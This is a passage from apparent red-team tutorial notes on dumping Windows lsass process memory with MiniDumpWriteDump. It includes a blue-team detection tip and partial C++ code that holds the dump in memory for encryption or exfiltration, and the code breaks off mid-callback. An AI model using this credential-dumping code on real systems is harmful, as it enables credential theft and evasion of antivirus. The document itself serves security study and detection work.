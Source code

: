 Of ourse, there is Sysinternal's `procdump` that does the same thing and it does not get flagged by Windows defender, but it is always good to know there are alternatives you could turn to if you need to for whatever reason.

### Observations

As mentioned earlier, the code above uses a native windows API call `MiniDumpWriteDump` to make a memory dump of a given process. If you are on the blue team and trying to write detections for these activities, you may consider looking for processes loading in `dbghelp.dll` module and calling `MiniDumpWriteDump` function:

![](../../.gitbook/assets/screenshot-from-2019-03-23-17-08-29.png)

## MiniDumpWriteDump to Memory using MiniDump Callbacks

By default, `MiniDumpWriteDump` will dump lsass process memory to disk, however it's possible to use `MINIDUMP_CALLBACK_INFORMATION` callbacks to create a process minidump and store it memory, where we could encrypt it before dropping to disk or exfiltrate it over the network.

### Code

The below code shows how we can create a minidump for lsass and store its buffer in memory, where we can process it as required:

```cpp
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
#include <processsnapshot.h>
#pragma comment (lib, "Dbghelp.lib")

using namespace std;

// Buffer for saving the minidump
LPVOID dumpBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 1024 * 1024 * 75);
DWORD bytesRead = 0;

BOOL CALLBACK minidumpCallback(
    __in     PVOID callbackParam,
    __in     const PMINIDUMP_CALLBACK_INPUT callbackInput,
    __inout  PMINIDUMP_CALLBACK_OUTPUT callbackOutput
)
{
    LPVOID destination = 0, source = 0;
    DWORD bufferSize = 0;

    switch (callbackInput->CallbackType)
    {
        case IoStartCallback:
            callbackOutput->Status = S_FALSE;
            break;

        // Gets called for each lsass process memory read operation
        case IoWriteAllCallback:
            callbackOutput->Status = S_OK;

            // A chunk of minidump data that's been jus read from lsass. 
            // This is the data that would eventually end up in the .dmp file on the disk, but we now have access to it in memory, so we can do whatever we want with it.
            // We will simply save it to dumpBuffer.
            source = callbackInput->Io.Buffer;

            // Calculate location of where we want to store this part of the dump.
```